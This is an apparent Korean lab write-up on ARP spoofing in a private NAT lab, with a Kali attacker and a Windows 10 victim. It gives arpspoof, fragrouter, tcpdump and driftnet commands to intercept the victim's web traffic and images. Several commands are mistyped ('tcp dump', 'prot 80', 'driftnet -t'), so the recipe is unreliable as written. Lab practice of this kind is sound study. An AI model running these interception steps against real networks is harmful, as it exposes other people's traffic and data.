 ![post](./img/스푸핑img/10.png)

## 응용실습 5. 패킷 덤핑 및 가로채기
### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.2
- 확인(Windows 10)       192.168.10.130 / c / 192.168.10.2 / 8.8.8.8
``` 

```
[samadal@kali ~]$ sudo driftnet -i eth0

(driftnet:5865): Gtk-WARNING **: 20:43:40.593: cannot open display:
```

Step 1. 'ARP Spoofing'을 이용한 공격대상 시스템의 'ARP 캐시 정보(G/W 주소)' 변경
```
(kali)$ sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
```

Step 2. 패킷 포워딩 설정
```
(kali)$ sudo fragrouter -B1
```

Step3. 펌프 및 가로 채기
```
(kali)$ sudo tcp dump src192.168.10.130 and prot 80 
(kali)$ sudo driftnet -t eth0
```
